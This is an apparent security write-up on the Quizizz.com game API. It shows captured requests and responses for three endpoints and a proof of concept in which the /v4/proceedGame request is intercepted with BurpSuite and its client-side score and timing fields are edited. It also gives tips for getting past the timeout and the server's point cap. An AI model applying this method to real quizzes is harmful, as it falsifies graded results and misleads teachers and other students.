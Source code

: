 # Intro

A brief analysis of Quizizz.com

Quizizz uses /play-api/ for all the game-related api needs. (Filtering for game.quizizz.com in BurpSuite also helps to reduce the clutter of requests)

In this brief writeup, we dive into how an endpoint can be exploited to earn more points than intended.

Obligatory disclaimer: This is purely for research purposes, do not use for any malicious purposes, etc.

# Table Of Contents

- [Intro](#intro)
- [Table Of Contents](#table-of-contents)
- [Functions in /play-api/](#functions-in-play-api)
	- [/v5/checkRoom](#v5checkroom)
		- [Request](#request)
		- [Response](#response)
	- [/v5/rejoinGame](#v5rejoingame)
		- [Request](#request-1)
		- [Response](#response-1)
	- [/v4/proceedGame](#v4proceedgame)
		- [Request](#request-2)
		- [Response](#response-2)
- [Big No-No](#big-no-no)
	- [Proof of concept](#proof-of-concept)
	- [Notes](#notes)


# Functions in /play-api/

## /v5/checkRoom

Sending a POST request with the roomCode as the param will return JSON of room details, such as but not limited to, questionIds, game options, etc. Nothing too revealing. Example of request and response shown below.

### Request
<details>
  <summary>Head</summary>
  
  ```
POST /play-api/v5/checkRoom HTTP/1.1
Host: game.quizizz.com
Connection: close
Content-Length: 23
sec-ch-ua: ******
Accept: application/json
experiment-name: main_main
X-CSRF-TOKEN: ******
sec-ch-ua-mobile: ?0
User-Agent: ******
Content-Type: application/json
Origin: https://quizizz.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://quizizz.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _gid=******; _ga_N10L950FVL=******; _ga=******
  ```

</details>

<details>
  <summary>Body</summary>
  
  ```json
{"roomCode":"40******"}
  ```

</details>

<br/>

### Response
<details>
  <summary>Head</summary>
  
  ```
HTTP/1.1 200 OK
Date: ******
Content-Type: application/json; charset=utf-8
Content-Length: 1676
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: https://quizizz.com
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: ******
  ```
  
</details>

<details>
  <summary>Body</summary>
  
  ```json
{
    "__cid__": null,
    "room": {
        "hash": "61f555496b2e4c001d******",
        "type": "async",
        "expiry": ******,
        "createdAt": 1643468******,
        "version": [{
            "type": "MCQ",
            "version": 2
        }],
        "code": "40******",
        "assignments": null,
        "deleted": false,
        "experiment": "recommAdm_exp",
        "hostId": "61f552ccbecace001d******",
        "hostSessionId": "",
        "hostOccupation": "other",
        "canvas": {
            "host": false,
            "player": false
        },
        "options": {
            "groupIds": null,
            "jumble": true,
            "jumbleAnswers": true,
            "limitAttempts": 0,
            "loginRequired": false,
            "memes": true,
            "showAnswers": true,
            "showAnswers_2": "always",
            "studentLeaderboard": true,
            "studentMusic": true,
            "studentQuizReview": true,
            "studentQuizReview_2": "yes",
            "timer": true,
            "timer_3": "classic",
            "redemption": "yes",
            "powerups": "yes",
            "nicknameGenerator": false,
            "adaptive": false,
            "questionsPerAttempt": 0,
            "memeset": "5c65cf51a7d584001a******"
        },
        "questions": ["61f5538dfb7262001d******", "61f554fbc04a6f001d******"],
        "groupIds": [],
        "groupsInfo": {
            "mode": "check",
            "create": {},
            "gcl": [],
            "assigned": [],
            "hasGCL": false,
            "assignedTo": {},
            "data": {
                "title": null,
                "description": null
            },
            "grading": {
                "isGraded": true,
                "maxPoints": 100
            }
        },
        "startedAt": 1643468******,
        "state": "running",
        "totalCorrect": 8,
        "totalPlayers": 6,
        "totalQuestions": 10,
        "assignmentTitle": null,
        "versionId": "61f553674f136f001d******",
        "collectionId": null,
        "unitId": null,
        "replayOf": null,
        "courseId": null,
        "reopenable": true,
        "reopened": true,
        "soloApis": null,
        "subscription": {
            "playerLimit": 500,
            "trialEndAt": null,
            "adsFree": false,
            "branding": false
        },
        "simGame": false,
        "metadata": {},
        "responseLink": "shard",
        "totalAnswerableQuestions": 2,
        "traits": {
            "isQuizWithoutCorrectAnswer": false,
            "totalSlides": 0
        },
        "organization": "",
        "isShared": false,
        "createGroup": null
    },
    "player": {
        "isAllowed": true,
        "loginRequired": false,
        "attempts": []
    }
}
  ```
  
</details>

<br/><br/><br/>

## /v5/rejoinGame
Sending a POST request to the above will result in a response with details of the room, including questions and their respective options, and scoreboard. Example of request and response below.

### Request
<details>
  <summary>Head</summary>
  
  ```
POST /play-api/v5/rejoinGame HTTP/1.1
Host: game.quizizz.com
Connection: close
Content-Length: 176
sec-ch-ua: ******
Accept: application/json
experiment-name: main_main
X-CSRF-TOKEN: ******
sec-ch-ua-mobile: ?0
User-Agent: ******
Content-Type: application/json
Origin: https://quizizz.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://quizizz.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _gid=******; _ga_N10L950FVL=******; _ga=******
  ```
  
</details>

<details>
  <summary>Body</summary>
  
  ```json
{
	"roomHash": "61f555496b2e4c001d******",
	"playerId": "************",
	"type": "async",
	"state": "running",
	"startSource": "rejoin|gameOver",
	"powerupInternalVersion": "13",
	"soloApis": "v2"
}
  ```
  
</details>

<br/>

### Response
<details>
  <summary>Head</summary>
  
  ```
HTTP/1.1 200 OK
Date: ******
Content-Type: application/json; charset=utf-8
Content-Length: 11105
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: https://quizizz.com
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: ******
  ```
  
</details>

<details>
  <summary>Body</summary>
  
  ```json
{
	"__cid__": null,
	"room": {
		"db": "redis",
		"code": "40******",
		"assignments": null,
		"createdAt": 1643468105531,
		"deleted": false,
		"experiment": "recommAdm_exp",
		"hash": "61f555496b2e4c001d******",
		"hostId": "61f552ccbecace001d******",
		"hostSessionId": "",
		"hostOccupation": "other",
		"canvas": {
			"host": false,
			"player": false
		},
		"name": "testing",
		"options": {
			"groupIds": null,
			"jumble": true,
			"jumbleAnswers": true,
			"limitAttempts": 0,
			"loginRequired": false,
			"memes": true,
			"showAnswers": true,
			"showAnswers_2": "always",
			"studentLeaderboard": true,
			"studentMusic": true,
			"studentQuizReview": true,
			"studentQuizReview_2": "yes",
			"timer": true,
			"timer_3": "classic",
			"redemption": "yes",
			"powerups": "yes",
			"nicknameGenerator": false,
			"adaptive": false,
			"questionsPerAttempt": 0,
			"memeset": "5c65cf51a7d584001a******"
		},
		"questions": {
			"61f554fbc04a6f001d******": {
				"_id": "61f554fbc04a6f001d******",
				"type": "MCQ",
				"ver": 2,
				"published": true,
				"structure": {
					"settings": {
						"hasCorrectAnswer": true,
						"fibDataType": "string"
					},
					"theme": {
						"fontColor": {
							"text": "#5D2057"
						},
						"background": {
							"color": "#FFFFFF",
							"image": "",
							"video": ""
						},
						"shape": {
							"largeShapeColor": "#F2F2F2",
							"smallShapeColor": "#9A4292"
						},
						"titleFontFamily": "Quicksand",
						"fontFamily": "Quicksand"
					},
					"explain": {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": ""
					},
					"kind": "MCQ",
					"query": {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[question1]******</p>"
					},
					"options": [{
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option1]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option2]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option3]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option4]******</p>"
					}],
					"hasMath": false,
					"answer": 3
				},
				"topics": [],
				"isSuperParent": false,
				"teleportFrom": null,
				"createdAt": "2022-01-******",
				"updated": "2022-01-******",
				"__v": 0,
				"time": 30000,
				"state": "inactive",
				"attempt": 0,
				"cause": ""
			},
			"61f5538dfb7262001d******": {
				"_id": "61f5538dfb7262001d******",
				"type": "MCQ",
				"ver": 2,
				"published": true,
				"structure": {
					"settings": {
						"hasCorrectAnswer": true,
						"fibDataType": "string"
					},
					"theme": {
						"fontColor": {
							"text": "#5D2057"
						},
						"background": {
							"color": "#FFFFFF",
							"image": "",
							"video": ""
						},
						"shape": {
							"largeShapeColor": "#F2F2F2",
							"smallShapeColor": "#9A4292"
						},
						"titleFontFamily": "Quicksand",
						"fontFamily": "Quicksand"
					},
					"explain": {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": ""
					},
					"kind": "MCQ",
					"query": {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[question2]******</p>"
					},
					"options": [{
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option1]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option2]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option3]******</p>"
					}, {
						"math": {
							"latex": [],
							"template": null
						},
						"type": "text",
						"hasMath": false,
						"media": [],
						"text": "<p>******[option4]******</p>"
					}],
					"hasMath": false,
					"answer": 1
				},
				"topics": [],
				"isSuperParent": false,
				"teleportFrom": null,
				"createdAt": "2022-01-******",
				"updated": "2022-01-******",
				"__v": 0,
				"time": 30000,
				"state": "inactive",
				"attempt": 0,
				"cause": ""
			}
		},
		"quizId": "3b5******427346365******8686f6f******1b74b04b9f******0b43e8eb4a2",
		"quizName": "testing",
		"groupIds": [],
		"groupsInfo": {
			"mode": "check",
			"create": {},
			"gcl": [],
			"assigned": [],
			"hasGCL": false,
			"assignedTo": {},
			"data": {
				"title": null,
				"description": null
			},
			"grading": {
				"isGraded": true,
				"maxPoints": 100
			}
		},
		"startedAt": 16434******31,
		"state": "running",
		"totalCorrect": 10,
		"totalPlayers": 7,
		"totalQuestions": 12,
		"type": "async",
		"assignmentTitle": null,
		"versionId": "61f553674f136f001d******",
		"expiry": 1******,
		"collectionId": null,
		"unitId": null,
		"replayOf": null,
		"courseId": null,
		"reopenable": true,
		"reopened": true,
		"soloApis": null,
		"subscription": {
			"playerLimit": 500,
			"trialEndAt": null,
			"adsFree": false,
			"branding": false
		},
		"simGame": false,
		"metadata": {},
		"responseLink": "shard",
		"totalAnswerableQuestions": 2,
		"traits": {
			"isQuizWithoutCorrectAnswer": false,
			"totalSlides": 0
		},
		"organization": "",
		"isShared": false,
		"players": [{
			"assignment": null,
			"attempts": [],
			"createdAt": 16434******53,
			"currentStreak": 2,
			"deleted": false,
			"experiment": "curriculum_exp",
			"id": "testing01",
			"isOver": true,
			"isUnderage": false,
			"lastPlayedAt": 1643******616,
			"locale": "en",
			"maximumStreak": 2,
			"metadata": {
				"type": "******",
				"model": "******",
				"ua": {
					"family": "******",
					"version": "******"
				},
				"os": {
					"family": "******",
					"version": "******"
				}
			},
			"mongoId": null,
			"monster": 23,
			"monsterId": 23,
			"name": "",
			"origin": "******",
			"playerId": "******01",
			"playerMetadata": {},
			"powerupEffects": [],
			"powerups": [],
			"questions": null,
			"rank": 1,
			"score": 1940,
			"startedAt": 1643******753,
			"totalAttempt": 2,
			"totalCorrect": 2,
			"totalResponses": 2,
			"uid": "8b******-b689-4******9c-******5f34e5",
			"userAddons": null
		}, 
		"questionIds": ["61f5538dfb7262001d******", "61f554fbc04a6f001d******"]
	},
	"player": {
		"assignment": null,
		"attempts": [],
		"createdAt": 1643******550,
		"currentStreak": 2,
		"deleted": false,
		"experiment": "main_main",
		"id": "testing007**",
		"isOver": true,
		"isUnderage": false,
		"lastPlayedAt": 1643******774,
		"locale": "en",
		"maximumStreak": 2,
		"metadata": {
			"type": "desktop",
			"model": "Other",
			"ua": {
				"family": "Chrome",
				"version": "89.0.4389"
			},
			"os": {
				"family": "Windows",
				"version": "10.0.0"
			}
		},
		"mongoId": null,
		"monster": 20,
		"monsterId": 20,
		"name": "",
		"origin": "web",
		"playerId": "******007**",
		"playerMetadata": {},
		"powerupEffects": [],
		"powerups": [],
		"questions": null,
		"rank": 4,
		"score": 1200,
		"startedAt": 1643******550,
		"totalAttempt": 2,
		"totalCorrect": 2,
		"totalResponses": 3,
		"uid": "******",
		"userAddons": null,
		"responses": [{
			"id": "61f55b761015ce001d******",
			"createdAt": "2022-01-******",
			"deleted": false,
			"elapsed": 18640,
			"isCorrect": false,
			"playerId": "******007**",
			"questionId": "61f5538dfb7262001d******",
			"questionType": "MCQ",
			"response": 3,
			"scoreBreakup": {
				"base": 0,
				"timer": 0,
				"streak": 0,
				"powerups": [],
				"total": 0
			},
			"score": 0,
			"timeTaken": 1831,
			"teamAdjustment": 0,
			"_v": "r2",
			"attempt": 0,
			"state": "attempted",
			"metadata": {
				"rescored": []
			}
		}, {
			"id": "******",
			"createdAt": "2022-01-******",
			"deleted": false,
			"elapsed": 81395,
			"isCorrect": true,
			"playerId": "testing007**",
			"questionId": "61f554fbc04a6f001d******",
			"questionType": "MCQ",
			"response": 3,
			"scoreBreakup": {
				"base": 600,
				"timer": 0,
				"streak": 0,
				"powerups": [],
				"total": 600
			},
			"score": 600,
			"timeTaken": 47643,
			"teamAdjustment": 0,
			"_v": "r2",
			"attempt": 0,
			"state": "attempted",
			"metadata": {
				"rescored": []
			}
		}, {
			"id": "61f55bc2a1dcec00******",
			"createdAt": "2022-01-******",
			"deleted": false,
			"elapsed": 95214,
			"isCorrect": true,
			"playerId": "******007**",
			"questionId": "61f5538dfb7262001d******",
			"questionType": "MCQ",
			"response": 1,
			"scoreBreakup": {
				"base": 600,
				"timer": 0,
				"streak": 0,
				"powerups": [],
				"total": 600
			},
			"score": 600,
			"timeTaken": 2210,
			"teamAdjustment": 0,
			"_v": "r2",
			"attempt": 1,
			"state": "attempted",
			"metadata": {
				"rescored": []
			}
		}],
		"scoreTrail": []
	},
	"powerupConfigVersion": "13"
}
  ```
  
</details>

<br/><br/><br/>

## /v4/proceedGame
This endpoint helps to send your score to the server. A POST request containing the player data, update to score, and question id is sent. Response will have JSON of updated score and leaderboard. Example of request and response below.

### Request
<details>
  <summary>Head</summary>
  
  ```
POST /play-api/v4/proceedGame HTTP/1.1
Host: game.quizizz.com
Connection: close
Content-Length: 651
sec-ch-ua: ******
Accept: application/json
experiment-name: main_main
X-CSRF-TOKEN: ******
sec-ch-ua-mobile: ?0
User-Agent: ******
Content-Type: application/json
Origin: https://quizizz.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://quizizz.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _gid=******; _ga_N10L950FVL=******; _ga=******; suid=******
  ```
  
</details>

<details>
  <summary>Body</summary>
  
  ```json
{
	"roomHash": "61f555496b2e4c001d******",
	"playerId": "******007**",
	"response": {
		"attempt": 0,
		"questionId": "61f554fbc04a6f001d******",
		"questionType": "MCQ",
		"response": 3,
		"responseType": "original",
		"timeTaken": 47643,
		"isEvaluated": false,
		"state": "attempted",
		"provisional": {
			"scores": {
				"correct": 600,
				"incorrect": 0
			},
			"scoreBreakups": {
				"correct": {
					"base": 600,
					"timer": 0,
					"streak": 0,
					"powerups": [],
					"total": 600
				},
				"incorrect": {
					"base": 0,
					"timer": 0,
					"streak": 0,
					"powerups": [],
					"total": 0
				}
			},
			"teamAdjustments": {
				"correct": 0,
				"incorrect": 0
			}
		}
	},
	"questionId": "61f554fbc04a6f001d******",
	"powerupEffects": {
		"destroy": []
	},
	"gameType": "async",
	"quizVersionId": "61f553674f136f001d******",
	"elapsed": 0
}
  ```
  
</details>

<br/>

### Response
<details>
  <summary>Head</summary>
  
  ```
HTTP/1.1 200 OK
Date: ******
Content-Type: application/json; charset=utf-8
Content-Length: 1094
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: https://quizizz.com
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: ******
  ```
  
</details>
  
</details>

<details>
  <summary>Body</summary>
  
  ```json
{
	"__cid__": null,
	"response": {
		"id": "61f55bb431ead1001d******",
		"createdAt": "2022-01-******",
		"deleted": false,
		"elapsed": 81395,
		"isCorrect": true,
		"playerId": "testing007**",
		"questionId": "61f554fbc04a6f001d******",
		"questionType": "MCQ",
		"response": 3,
		"scoreBreakup": {
			"base": 600,
			"timer": 0,
			"streak": 0,
			"powerups": [],
			"total": 600
		},
		"score": 600,
		"timeTaken": 47643,
		"teamAdjustment": 0,
		"_v": "r2",
		"attempt": 0,
		"state": "attempted",
		"metadata": {
			"rescored": []
		}
	},
	"playerId": "******007**",
	"question": {
		"structure": {
			"answer": 3
		}
	},
	"player": {
		"currentStreak": 1,
		"maximumStreak": 1
	},
	"powerupEffects": [],
	"leaderboard": [{
		"playerId": "******01",
		"score": 1940,
		"rank": 1,
		"monsterId": 23,
		"origin": "******",
		"userAddons": null
	}, {
		"playerId": "******02",
		"score": 1930,
		"rank": 2,
		"monsterId": 24,
		"origin": "******",
		"userAddons": null
	}, {
		"playerId": "******02**",
		"score": 1560,
		"rank": 3,
		"monsterId": 30,
		"origin": "******",
		"userAddons": null
	}, {
		"playerId": "******007",
		"score": 900,
		"rank": 4,
		"monsterId": 7,
		"origin": "******",
		"userAddons": null
	}, {
		"playerId": "******007**",
		"score": 600,
		"rank": 5,
		"monsterId": 20,
		"origin": "******",
		"userAddons": null
	}],
	"playerCount": 5,
	"err": null
}
  ```
  
</details>

<br/><br/><br/>

# Big No-No
Calculating the score on the client side is a big no-no. Why? Because this means the client can *fake their scores*.

By sending an edited POST request to the /v4/proceedGame endpoint, users can artificially inflate their scores and decrease their time to solve.

<br/>

## Proof of concept
By using BurpSuite to intercept and edit the POST request, we can change several params in the JSON object.

A portion of the JSON is shown below.

<table>
<tr>
<td>Original</td>
<td>Edited</td>
</tr>

<tr>
<td>

```json
"response": {
		"attempt": 0,
		"questionId": "61f554fbc04a6f001d******",
		"questionType": "MCQ",
		"response": 3,
		"responseType": "original",
		"timeTaken": 47643,
		"isEvaluated": false,
		"state": "attempted",
		"provisional": {
			"scores": {
				"correct": 600,
				"incorrect": 0
			},
			"scoreBreakups": {
				"correct": {
					"base": 600,
					"timer": 0,
					"streak": 0,
					"powerups": [],
					"total": 600
				},
				"incorrect": {
					"base": 0,
					"timer": 0,
					"streak": 0,
					"powerups": [],
					"total": 0
				}
			},
			"teamAdjustments": {
				"correct": 0,
				"incorrect": 0
			}
		}
```

</td>
<td>

```json
"response": {
		"attempt": 0,
		"questionId": "61f554fbc04a6f001d******",
		"questionType": "MCQ",
		"response": 3, // this can be edited
		"responseType": "original",
		"timeTaken": 1001, // decrease solve time
		"isEvaluated": false,
		"state": "attempted",
		"provisional": {
			"scores": {
				"correct": 2200, // change your total score here
				"incorrect": 0
			},
			"scoreBreakups": {
				"correct": {
					"base": 2000, // change score here too
					"timer": 200, // usually adds bonus score if you solve fast
					"streak": 0, // you can also add more score here
					"powerups": [],
					"total": 2200 // change your total score here (again)
				},
				"incorrect": {
					"base": 0,
					"timer": 0,
					"streak": 0,
					"powerups": [],
					"total": 0
				}
			},
			"teamAdjustments": {
				"correct": 0,
				"incorrect": 0
			}
		}
```

</td>
</tr>
</table>

By editing the request, you are able to earn extra points.

<br/>

## Notes

1. There is a hard-coded time limit before the page throws an error (of not being able to reach server)
	- You can "bypass" this by letting it fail to reach the server first
	- Edit the current intercepted request in BurpSuite, and copy it to clipboard
	- Forward the stuck request, wait for the page to reload itself, then quickly paste and forward the request
2. There is a server-sided limit on how many points you can earn from a question
	- Don't be too greedy, or it will throw an error
	- Server-side does **NOT** calculate any bonus, any amount of points in the timer or streak will work, regardless of the amount of time spent and/or the amount of correct answers

